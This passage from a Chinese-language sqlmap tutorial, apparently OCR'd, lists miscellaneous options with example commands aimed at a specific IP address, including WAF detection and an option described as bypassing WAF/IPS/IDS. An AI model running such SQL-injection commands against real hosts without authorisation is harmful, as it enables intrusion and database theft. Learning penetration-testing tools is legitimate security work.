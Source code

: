 

##### **—fresh-queries ：重新检测，不使用本地已查询的数据** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —fresh-queries



##### **—hex ：以16进制的形式编码dump出来的数据** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —hex



##### **—parse-errors ：分析和显示数据库内建报错信息** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —parse-errors



##### **—answer ：回答** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —answer=”extending=N”

##### ** **

##### **—check-waf ：检测WAF/****IPS/IDS** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —check-waf



##### **—hpp ：绕过WAF/IPS/ID**S 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —hpp



##### **—identify-waf ：彻底检测WAF/IPS/IDS** 

> **python sqlmap.py -u “**http://59.63.200.79:8003/?id=1**“ —identify-waf**



##### **—mobile ：模拟智能手机设备** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —mobile



##### **—purge-output ：清除output文件夹** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —purge-output



##### **—smart ：当有大量检测目标时，只选择基于错误的检测结果** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —smart



## 十一.高级注入参数 


